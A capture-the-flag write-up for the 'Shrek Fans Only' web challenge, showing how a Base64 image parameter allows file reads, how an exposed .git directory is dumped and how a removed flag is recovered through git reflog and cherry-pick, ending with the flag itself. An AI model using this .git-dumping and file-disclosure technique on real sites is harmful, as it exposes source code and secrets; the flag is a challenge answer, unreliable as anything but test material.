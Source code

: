 # Shrek Fans Only writeup

## Description

### My Story
A simple web page with a single image. too empty!!

But the url of image is somehow interesting (`http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`).
The `img` parameter value is like Base64 encoded value and it is. I tested by Javascript:
```
atob(decodeURIComponent('aW1nMS5qcGc%3D'))
"img1.jpg"
```

I wrote this simple Bash script, [getimg.sh](./getimg.sh), and tried different pathes and finally found `.git` directory files.
```
./getimg.sh ".git/HEAD"
```

OK! I should try to get `.git` directory data and find the flag in the past commits of repository.

### Exploit Time
I had to write a script that would get all parts of `.git` directory, but I didn't know the structure of this directory. I searched and found [this repository](https://github.com/arthaud/git-dumper) and read some parts of [git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) and did:
* mkdir git (I made this diretory to be the parent of `.git` directory)
* I wrote [my-dumper.py](./my-dumper.py) to get important files of `.git` directory.

I have these files now:
```
.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── post-commit.sample
│   ├── post-receive.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
│           └── origin
│               └── master
├── objects
│   └── info
└── refs
    ├── heads
    │   └── master
    └── remotes
        └── origin
            └── master
```
There should be some object files under `objects` direcotry that I don't know the names. So I tried to find out the SHA1s all over `.git` directory and used [getobject.sh script](./getobject.sh) to download and put them in the correct path.
```
$ cat .git/logs/HEAD
0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master

$ git checkout .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
Updated 3 paths from the index

$ git fsck --full
broken link from  commit 976b625888ae0d9ee9543f025254f71e10b7bcf8
              to    tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
broken link from  commit 759be945739b04b63a09e7c02d51567501ead033
              to    tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
broken link from  commit d421c6aa97e8b8a60d330336ec1e829c8ffd7199
              to    tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
missing tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
```

I use `git cherry-pick` command to get pre-'remove flag' files.
```
$ git reflog
d421c6a (HEAD -> master, origin/master) HEAD@{0}: checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
759be94 HEAD@{1}: checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
d421c6a (HEAD -> master, origin/master) HEAD@{2}: commit: added more stuff
976b625 HEAD@{3}: commit: remove flag
759be94 HEAD@{4}: commit (initial): initial commit

$ git cherry-pick 759be94
```

and after a conflict I saw `index.php` file.
```
$ cat index.php
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="imgproxy.php?img=img1.jpg">
<<<<<<< HEAD
<div>There used to be something here but Donkey won't leave me alone<div>
=======
<div>utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}</div>
>>>>>>> 759be94... initial commit
</body>
</html>
```
:sunglasses: You Can See The Conflict!
Flag: `utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}`
